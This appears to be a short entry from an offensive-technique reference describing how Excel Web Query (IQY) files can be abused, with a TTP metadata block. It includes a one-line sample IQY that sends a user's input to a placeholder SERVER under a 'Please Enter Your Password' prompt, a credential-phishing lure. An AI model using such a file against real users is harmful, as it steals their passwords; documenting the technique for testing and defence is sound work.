 # IQY
Web Query (IQC) files are associated with Microsoft Excel.
Web queries allow you to query data from a specific World Wide Web, Internet, or intranet site and retrieve the information directly into a Microsoft Excel worksheet

## Sample
```text
WEB 1 http://SERVER/["a","Please Enter Your Password"]
```

## References
[source](http://www.labofapenetrationtester.com/2015/08/abusing-web-query-iqy-files.html)

## Tools
########
########

```meta
ttp: T1000
internal: false
requirements:
results: user, admin
description: IQY (Web Query) Excel files
```